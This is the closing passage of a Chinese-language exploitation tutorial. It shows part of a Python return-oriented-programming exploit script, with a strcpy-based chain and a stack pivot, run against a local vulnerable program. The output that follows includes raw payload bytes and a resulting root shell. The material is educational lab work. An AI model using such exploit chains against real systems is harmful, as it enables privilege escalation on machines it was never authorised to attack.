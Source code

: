 ```
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
#Stack Pivot
buf += conv(pr_addr)
buf += conv(cust_base_esp)
buf += conv(lr_addr)

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上述利用代码，我们会获得 root shell（在下面展示）：

```
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��ﾭ�ﾭ�ﾭ�ͅﾭހ�����ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭޢ�@���0�����Ѓ΅d�ˁЃ΅e�U�Ѓ΅f�0�Ѓ΅g�C�Ѓ΅h�܃Ѓ΅i�U�Ѓ΅j�0�Ѓ΅k�C�Ѓ΅l�`�Ѓ΅m�`�Ѓ΅n�`�Ѓ΅o�`�Ѓ΅p���Ѓ΅q�Ѓ΅r�0�Ѓ΅s�C�Ѓ΅t���Ѓ΅u�Ѓ΅v�0�Ѓ΅w�C�Ѓ΅x�`�Ѓ΅y�`�Ѓ΅z�`�Ѓ΅{�`�Ѓ΅`�T�Ѓ΅a�W�Ѓ΅b�V�Ѓ΅c�^�Ѓ΅d�T�Ѓ΅e�b�Ѓ΅f���Ѓ΅h���Ѓ΅i�Ѓ΅j�0�Ѓ΅k�C�Ѓ΅l�`�Ѓ΅m�`�Ѓ΅n�`�Ѓ΅o�`���`�i�
Len:1008
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

## 参考

[PAYLOAD ALREADY INSIDE: DATA REUSE FOR ROP EXPLOITS](http://media.blackhat.com/bh-us-10/whitepapers/Le/BlackHat-USA-2010-Le-Paper-Payload-already-inside-data-reuse-for-ROP-exploits-wp.pdf)